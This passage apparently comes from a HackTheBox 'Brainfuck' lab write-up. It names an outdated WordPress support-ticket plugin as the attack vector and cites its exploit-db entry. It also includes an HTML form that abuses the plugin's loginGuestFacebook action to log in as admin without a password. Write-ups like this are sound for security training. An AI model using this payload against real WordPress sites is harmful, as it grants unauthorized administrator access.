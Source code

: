 ![image-20231128151352077](./Brainfuck.assets/image-20231128151352077.png)

- attack vector: theme proficient and plugin **wp-support-plus-responsive-ticket-system** out of date
- user: **admin**, administrator

wp plugin exploit:

- searchsploit

![image-20231128151535612](./Brainfuck.assets/image-20231128151535612.png)

#### 40939 wp support plugin - Responsive Ticket System 7.1.3 - SQL Injection

- [WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/40939)
- create a page on local and visit it

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```
